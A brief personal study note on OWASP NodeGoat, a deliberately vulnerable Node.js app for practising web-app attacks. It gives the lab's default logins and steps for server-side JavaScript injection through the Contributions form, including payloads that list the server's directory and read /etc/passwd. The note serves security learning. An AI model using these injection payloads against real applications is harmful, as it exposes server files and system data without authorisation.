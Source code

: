 ```yaml
---
is_a: "[[note]]"
in: "[[hacking]]"
---
```

# Notes
A vulnerable web server to learn webapp hacking.

https://github.com/OWASP/NodeGoat
https://wiki.owasp.org/index.php/Projects/OWASP_Node_js_Goat_Project

Tutorial
https://nodegoat.herokuapp.com/tutorial

Users
* Admin Account - u:admin p:Admin_123
* User Accounts (u:user1 p:User1_123), (u:user2 p:User2_123)
* New users can also be added using the sign-up page.


Injection attack
* Log in as
* Go to Contributions tab
* In the Employee Pre-Tax field, enter “res.end(require('fs').readdirSync('.').toString())” (without quotes)


res.end(require('fs').readdirSync('.').toString())

res.end(require('fs').readFileSync(‘/etc/passwd’))
